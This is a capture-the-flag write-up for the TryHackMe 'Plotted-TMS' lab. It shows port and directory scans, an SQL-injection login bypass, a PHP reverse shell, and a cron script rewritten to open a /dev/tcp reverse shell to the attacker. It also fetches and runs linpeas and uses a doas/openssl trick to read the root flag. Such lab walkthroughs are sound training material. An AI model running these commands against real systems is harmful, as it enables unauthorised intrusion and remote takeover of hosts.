 # Plotted-TMS

**Room Link:** [https://tryhackme.com/room/plottedtms](https://tryhackme.com/room/plottedtms)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

### TCP/445 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:445 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```







<figure><img src="../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>



```
Username: admin' or '1'='1'-- -
Password: admin
```

<figure><img src="../../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>





## Initial Shell

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```







<figure><img src="../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
rm -f /var/www/scripts/backup.sh 
echo '#!/bin/bash' > /var/www/scripts/backup.sh 
echo "sh -i >& /dev/tcp/$KALI/1338 0>&1" >> /var/www/scripts/backup.sh 
chmod +x /var/www/scripts/backup.sh
cat /var/www/scripts/backup.sh 
```

**Kali**

```
nc -lvnp 1338
```

<figure><img src="../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



#### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure>

###

## Privilege Escalation

### Option #1&#x20;

**Victim**

```
LFILE=/root/root.txt
doas -u root openssl enc -in "$LFILE"
```

<figure><img src="../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

### Option #2&#x20;

**Victim**

```
LFI
```















